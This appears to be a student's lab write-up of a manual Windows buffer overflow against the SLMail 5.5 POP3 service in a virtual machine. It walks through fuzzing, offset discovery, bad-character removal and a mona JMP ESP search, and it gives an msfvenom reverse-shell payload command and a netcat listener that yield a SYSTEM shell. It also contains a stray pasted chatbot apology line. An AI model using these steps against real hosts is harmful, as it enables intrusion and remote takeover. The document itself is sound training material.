 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:


Certainly, I apologize for that oversight. Here's the revised version of the walkthrough steps with XVIII and XIX separated:

Windows BOF Assignment
Objective: Execute a manual buffer overflow on a windows machine.

Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

Updated “fuzzy.py” with the target IP address and port, then saved changes.

Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

Observed the EIP update to “41414141” in Immunity debugger.

Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

Established a netcat listener on the Kali machine using “nc -lvp 4444”.

Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

